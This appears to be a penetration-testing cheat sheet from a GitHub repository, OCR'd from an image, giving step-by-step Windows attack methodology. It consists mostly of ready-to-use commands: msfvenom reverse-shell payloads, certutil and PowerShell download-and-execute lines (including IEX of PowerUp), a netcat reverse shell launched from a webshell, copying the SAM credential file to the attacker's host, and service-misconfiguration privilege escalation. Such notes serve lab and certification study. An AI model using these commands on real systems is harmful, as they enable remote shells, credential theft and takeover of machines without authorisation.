 ## Setting
1.export ip=10.10.10.10\
1.5 make directory for nmap result: mkdir nmap && cd nmap
## Ennumeration
2. `nmap -sC -sV -p- -Pn $ip --open -oN result`   AND  `rustscan -a $IP and rustscan -a $IP`. 
3. Check which ports are open. Take note of service running and versions(for searchsploit)\
4. Manual ennumeration. Visit the open ports to see if we can get initial foothold information. e.g anoymous login, default login,etc\
5. Check for vulnerabiltieis on specific ports using nmap script `nmap -p 80,445,139 --script=*vuln* $IP`
## Check vulnerabilities and enumerate for each port
0. Go to the differnet MD files in the repository .

## Creating a reverseshell, uploading a revershell  / creating a stageless payload
0. `msfvenom -p windows/shell_reverse_tcp LHOST=myIP LPORT=1237 -f exe  -o reverse.exe` 
1. `msfvenom -p windows/shell_reverse_tcp LHOST=myIP LPORT=1234 -f asp -o reverse.asp` 

## File Transfer to Window 

### File transfer via web server
0. `python3 -m http.server 8080` from linux
1. `powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://myIP:80/winpeas.exe', 'winpeas.exe') -exec bypass` from window
2. `certutil.exe -urlcache -f  http://myIp:80/winpeas.exe` from window
### File Transfer via SMB
0. `mkdir share` and move files to transfer
1. `impacket-smbserver smb share/ ` from linux
2. `net use \\myIP\smb` from window
3. `copy \\myIP\smb\winpeas.exe   \windows\temp\winpeas.exe` 
4. `copy c:\Windows\Repair\SAM \\MYIP\tools\` copy content to my kali
5. in a webshell windows, `\\192.168.119.159\share\nc.exe -e cmd.exe 192.168.119.159 123`

 ## Privilege Escalation for Window
 0. Use PowerUp
 1. `Import-Module .\PowerUp.ps1` or `. .\PowerUp.ps1`
 2. `Invoke-AllChecks`
 3. or `powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://myIP:80/PowerUp.ps1');Invoke-AllChecks"`
 4. Use WinPeas
 5. `winpeas.exe`
 6. Use SharUp if you cant run winpeas or powerup 
 7. `.\SharpUp.exe`
 ## Service Misconfiguration
- `sc.exe qc <name>` Query the configuration of a service
- `sc.exe query <name>`Query the current status of a service
- `sc.exe config <name> <option>= <value>`Modify a configuration option of a service
`- net start/stop <name>`#Start/Stop a service
### Insecure Service Permissions (Modifileable service)
0. If our user has permission to change the configuration of a service which runs with SYSTEM privileges, we can change the executable the service uses to one of our own.
1. Things to look for (e.g. SERVICE_STOP, SERVICE_START).
2. Things to look for (e.g. SERVICE_CHANGE_CONFIG, SERVICE_ALL_ACCESS)
3. Things to look out for ***Rabit Hole*** If you can change a service configuration but cannot stop/start the service, you may not be able to escalate privileges!
4. `.\winPeas.exe quiet servicesinfo` query for only services